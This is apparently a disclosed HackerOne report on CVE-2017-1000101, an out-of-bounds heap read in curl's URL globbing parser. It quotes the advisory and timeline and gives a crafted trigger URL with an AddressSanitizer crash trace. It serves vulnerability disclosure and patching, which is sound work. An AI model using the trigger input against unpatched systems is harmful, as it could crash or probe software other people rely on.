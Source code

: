 #  CVE-2017-1000101: cURL: URL globbing out of bounds read

## Report Details
- **Report ID**: 255587
- **URL**: https://hackerone.com/reports/255587
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-01T18:13:51.803Z
- **Disclosed**: 2018-05-16T15:38:16.343Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
**FYI, this security advisory will not be released until 9 August 2017:**
```
curl supports "globbing" of URLs, in which a user can pass a numerical range
to have the tool iterate over those numbers to do a sequence of transfers.

In the globbing function that parses the numerical range, there was an
omission that made curl read a byte beyond the end of the URL if given a
carefully crafted, or just wrongly written, URL. The URL is stored in a heap
based buffer, so it could then be made to wrongly read something else instead
of crashing.

An example of a URL that triggers the flaw would be
`http://ur%20[0-60000000000000000000`.
```

Reported to project maintainers:  14 June 2017
Acknowledged: 14 June 2017
Patched: 14 June 2017
Released: 9 August 2017
Advisory: 9 August 2017

Stack:
```
curl -q http://ur%20[0-60000000000000000000

curl: (6) Couldn't resolve host 'ur'
=================================================================
==16611==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x603000023de8 at pc 0x0000004f9ecc bp 0x7ffef3e73b50 sp 0x7ffef3e73b48
READ of size 1 at 0x603000023de8 thread T0
    #0 0x4f9ecb in glob_range /root/curl/src/tool_urlglob.c:282:12
    #1 0x4f9ecb in glob_parse /root/curl/src/tool_urlglob.c:412
    #2 0x4f9ecb in glob_url /root/curl/src/tool_urlglob.c:450
    #3 0x4e2b37 in operate_do /root/curl/src/tool_operate.c:526:18
    #4 0x4e076e in operate /root/curl/src/tool_operate.c:2052:20
    #5 0x4de7d6 in main /root/curl/src/tool_main.c:252:14
    #6 0x7fa930f74b44 in __libc_start_main /build/glibc-KShDyh/glibc-2.19/csu/libc-start.c:287
    #7 0x4c3f1c in _start (/root/curl/src/curl+0x4c3f1c)

0x603000023de8 is located 0 bytes to the right of 24-byte region [0x603000023dd0,0x603000023de8)
allocated by thread T0 here:
    #0 0x4a689b in malloc (/root/curl/src/curl+0x4a689b)
    #1 0x7fa930fd4989 in __strdup /build/glibc-KShDyh/glibc-2.19/string/strdup.c:42

SUMMARY: AddressSanitizer: heap-buffer-overflow /root/curl/src/tool_urlglob.c:282 glob_range
```

## Attachments
No attachments
